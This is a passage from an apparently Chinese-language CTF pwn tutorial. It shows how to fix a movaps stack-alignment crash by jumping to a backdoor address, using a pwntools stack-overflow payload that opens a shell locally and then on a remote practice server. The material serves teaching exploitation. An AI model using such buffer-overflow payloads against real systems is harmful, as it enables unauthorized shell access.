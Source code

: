 ![system - 本地利用](/assets/images/learn/pwn-run-exp-local_system.png)

但是程序卡在了 system 函数的内部的一条命令:

```ASM
0x7e3aee45842b <do_system+363>    movaps xmmword ptr [rsp + 0x50], xmm0
```

这个命令涉及到 `xmm` 寄存器，`xmm` 寄存器为 128 位，需要 `rsp+0x50` 的最低一个 16 进制位为 `0`.

一个可行的应对方法就是我们可以劫持程序的执行流到 `0x4011C2` 处，这样就能跳过一个 `push` 命令，`rsp` 自然就多了 8，就满足了 `xmm` 寄存器的要求。

修改一下地址就能拿到 shell 了

```Python
from pwn import *

context.log_level='debug'
context(arch='amd64', os='linux')

ELFpath = './pwn'
p = process(ELFpath)
gdb.attach(p)

p.send(b'a'*0x10 + p64(0) + p64(0x4011C2))# [!code focus]

p.interactive()
```

![本地利用后门成功](/assets/images/learn/pwn-run-exp-local_success.png)

之后注释掉 `process` 函数与 `gdb.attach` 函数，换 `remote` 函数打远程靶机即可：

```Python
p = remote('hacker.akyuu.space', 6000)
```

![远程利用后门成功](/assets/images/learn/pwn-run-exp-remote_success.png)

远程利用成功。

